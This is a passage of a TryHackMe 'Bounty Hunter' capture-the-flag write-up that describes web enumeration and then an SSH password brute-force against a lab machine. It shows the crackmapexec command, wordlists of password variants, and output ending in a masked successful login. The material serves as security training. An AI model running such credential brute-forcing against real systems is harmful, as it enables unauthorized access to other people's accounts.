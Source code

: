 	![](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/Bounty%20Hunter/images/ps.png)
	\
	3. We can also run other enumerations on the side as `subdomain` and `nikto`. - Nada. Check [here](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/Bounty%20Hunter/web).
	4. Look through a proxy to get more details on the request:response model setup. Nothing to go on.
	5. We can run sub domain check on this port using `feroxbuster`. This turned up [empty too](https://github.com/pratty010/Boxes/blob/master/Try%20Hack%20Me/Easy/Bounty%20Hunter/web/ferox.txt). Not even a login portal or CMS. Maybe this is a rabbit hole. Smart creator.

2. This is very odd. But with exhausting all other options and getting hints from the Box questions, I think we need to Bruteforce the SSH service. Let's look into it.


## INITIAL ACCESS - SSH

1. Using my fav Swiss Army Knife - `crackmapexec` here. You can alternatively use tools like *Hydra* or *wfuzz*.

```bash
$ crackmapexec ssh 10.10.59.237 -u ../users.txt -p ../ftp/locks.txt 
SSH         10.10.59.237    22     10.10.59.237     [*] SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.8
SSH         10.10.59.237    22     10.10.59.237     [-] lin:rEddrAGON Authentication failed.
SSH         10.10.59.237    22     10.10.59.237     [-] lin:ReDdr4g0nSynd!cat3 Authentication failed.
SSH         10.10.59.237    22     10.10.59.237     [-] lin:Dr@gOn$yn9icat3 Authentication failed.
SSH         10.10.59.237    22     10.10.59.237     [-] lin:R3DDr46ONSYndIC@Te Authentication failed.
SSH         10.10.59.237    22     10.10.59.237     [-] lin:ReddRA60N Authentication failed.
SSH         10.10.59.237    22     10.10.59.237     [-] lin:R3dDrag0nSynd1c4te Authentication failed.
SSH         10.10.59.237    22     10.10.59.237     [-] lin:dRa6oN5YNDiCATE Authentication failed.
SSH         10.10.59.237    22     10.10.59.237     [-] lin:ReDDR4g0n5ynDIc4te Authentication failed.
SSH         10.10.59.237    22     10.10.59.237     [-] lin:R3Dr4gOn2044 Authentication failed.
SSH         10.10.59.237    22     10.10.59.237     [+] lin:********************
```

